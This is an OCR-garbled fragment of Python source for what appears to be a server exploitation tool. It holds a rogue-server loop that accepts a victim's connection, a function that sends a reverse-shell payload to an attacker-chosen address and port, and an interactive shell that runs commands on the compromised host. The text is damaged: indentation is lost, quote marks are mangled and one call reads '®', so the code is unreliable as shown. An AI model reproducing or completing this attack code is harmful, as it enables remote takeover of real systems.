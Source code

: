 def close(self):
    self._sock.close()

def exp(self):
    try:
        cli, addr = self._sock.accept()
        print("\033[92m[+]\033[0m Accepted connection from {}:{}".format(addr[0], addr[1]))
        while True:
            data = din(cli, 1024)
            if len(data) == 0:
                break
            resp, phase = self.handle(data)
            dout(cli, resp)
            if phase == 3:
                break
    except Exception as e:
        print("\033[1;31;m[-]\033[0m Error: {}, exit".format(e))
        cleanup(self._remote, self._file)
        exit(0)
    except KeyboardInterrupt:
        print("[-] Exit..")
        exit(0) 
```

def reverse(remote):

print("[*] Open reverse shell…")

addr = input("[*] Reverse server address: “)

port = input(”[*] Reverse server port: “)

remote.reverse_shell(addr, port)

print(”\033[92m[+]\033[0m Reverse shell payload sent.")

print("[*] Check at {}:{}".format(addr, port))

def interact(remote):

print("\033[92m[+]\033[0m Interactive shell open , use “exit” to exit…")

try:

while True:

cmd = input("$ “)

cmd = cmd.strip()

if cmd == “exit”:

return

r = remote.shell_cmd(cmd)

if ‘unknown command’ in r:

print(”\033[1;31;m[-]\033[0m Error:{} , check your module!".format(r.strip()))

return

for l in decode_shell_result®.split("\n"):

```